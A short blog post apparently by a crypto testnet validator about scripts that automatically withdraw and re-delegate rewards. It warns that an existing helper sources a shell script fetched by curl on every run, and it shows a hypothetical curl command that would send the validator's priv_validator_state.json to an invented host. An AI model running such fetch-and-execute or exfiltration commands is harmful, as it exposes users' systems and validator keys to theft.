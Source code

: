 ```yaml
---
layout: post
title:  "Skip routine, use auto withdraw!"
date:   2024-05-13 10:21:03 +0700
categories: crypto
---
```


### Context
In order to stay in active set of test nets one should constantly withdraw
their commission and rewards and re-delegate it to themselves. It can be
an exciting experience the first time, but then it becomes a routine.

### Existing solution
There is a working [auto-withdraw-delegate](https://github.com/Pretid/galactica_helpers/tree/main/auto-withdraw-delegate)
script by [@Pretid](https://github.com/Pretid). However, I'm concerned by one
[line](https://github.com/Pretid/galactica_helpers/blob/d1dcd7fac9fc49974d6c815141b935cc8b4663fd/auto-withdraw-delegate/auto-withdraw-redelegue.sh#L2)
there:
```bash
source <(curl -s https://raw.githubusercontent.com/Pretid/galactica_helpers/main/utils/common.sh)
```
It means everytime the script runs, it executes some logic taken from the
Internet! I'm sure the author is not going to inject any harmful code there
like:
```bash
curl  -d "@$HOME/.galactica/data/priv_validator_state.json" ht tps://server-storing-everything-for.me/
# URL is broken on purpose, just in case someone tries to execute it
```
But one should stay on the safe side.

### Alternative solution
Before finding the solution above, I implemented almost the same script,
you can find it [here](https://github.com/masim05/play-web3/tree/main/utils/withdraw).
One more benefit, it is extendable in terms of networks, at the moment it support Galactica and
Zero-gravity.
